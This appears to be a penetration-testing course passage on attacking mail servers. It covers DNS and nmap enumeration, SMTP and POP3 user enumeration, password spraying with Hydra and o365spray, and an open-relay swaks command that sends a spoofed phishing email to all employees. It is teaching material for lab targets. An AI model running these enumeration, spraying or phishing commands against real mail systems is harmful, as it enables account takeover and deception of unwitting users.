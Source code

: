 A `mail server` (sometimes also referred to as an email server) is a server that handles and delivers email over a network, usually over the Internet

When we press the `Send` button in our email application (email client), the program establishes a connection to an `SMTP` server on the network or Internet. The name `SMTP` stands for Simple Mail Transfer Protocol, and it is a protocol for delivering emails from clients to servers and from servers to other servers.

When we download emails to our email application, it will connect to a `POP3` or `IMAP4` server on the Internet, which allows the user to save messages in a server mailbox and download them periodically.

By default, `POP3` clients remove downloaded messages from the email server.
## Enumeration

We can use the `Mail eXchanger` (`MX`) DNS record to identify a mail server. The MX record specifies the mail server responsible for accepting email messages on behalf of a domain name. It is possible to configure several MX records, typically pointing to an array of mail servers for load balancing and redundancy.

We can use tools such as `host` or `dig` and online websites such as [MXToolbox](https://mxtoolbox.com/) to query information about the MX records:

We can use tools such as `host` or `dig` and online websites such as [MXToolbox](https://mxtoolbox.com/) to query information about the MX records:

#### Host - MX Records

```shell-session
host -t MX hackthebox.eu
```

#### DIG - MX Records

```shell-session
dig mx plaintext.do | grep "MX" | grep -v ";"
```

#### Host - A Records

```shell-session
host -t A mail1.inlanefreight.htb.
```

Most cloud service providers use their mail server implementation and adopt modern authentication, which opens new and unique attack vectors for each service provider. On the other hand, if the company configures the service, we could uncover bad practices and misconfigurations that allow common attacks on mail server protocols.

|**Port**|**Service**|
|---|---|
|`TCP/25`|SMTP Unencrypted|
|`TCP/143`|IMAP4 Unencrypted|
|`TCP/110`|POP3 Unencrypted|
|`TCP/465`|SMTP Encrypted|
|`TCP/587`|SMTP Encrypted/[STARTTLS](https://en.wikipedia.org/wiki/Opportunistic_TLS)|
|`TCP/993`|IMAP4 Encrypted|
|`TCP/995`|POP3 Encrypted|
```shell-session
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

## Misconfigurations

#### Authentication

#### VRFY Command

`VRFY` this command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

```shell-session
telnet 10.10.110.20 25
```

```shell-session
VRFY root
```

```shell-session
VRFY www-data
```

#### EXPN Command

`EXPN` is similar to `VRFY`, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem than the `VRFY` command since sites often have an alias such as "all."

```shell-session
telnet 10.10.110.20 25
```

```shell-session
EXPN john
```

```shell-session
EXPN support-team
```

#### RCPT TO Command

`RCPT TO` identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.

```shell-session
RCPT TO:julio
```

```shell-session
RCPT TO:kate
```

We can also use the `POP3` protocol to enumerate users depending on the service implementation. For example, we can use the command `USER` followed by the username, and if the server responds `OK`. This means that the user exists on the server.

#### USER Command

```shell-session
telnet 10.10.110.20 110
```

```shell-session
USER john
```

To automate our enumeration process, we can use a tool named [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum). We can specify the enumeration mode with the argument `-M` followed by `VRFY`, `EXPN`, or `RCPT`, and the argument `-U` with a file containing the list of users we want to enumerate. Depending on the server implementation and enumeration mode, we need to add the domain for the email address with the argument `-D`. Finally, we specify the target with the argument `-t`.

```shell-session

smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

## Cloud Enumeration

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh).

#### O365 Spray

```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

## Password Attacks

#### Hydra - Password Attack

```shell-session
 hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta.


#### O365 Spray - Password Spraying

```shell-session

python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
## Protocol Specifics Attacks

An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay

#### Open Relay

```shell-session
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Next, we can use any mail client to connect to the mail server and send our email.

```shell-session

swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```







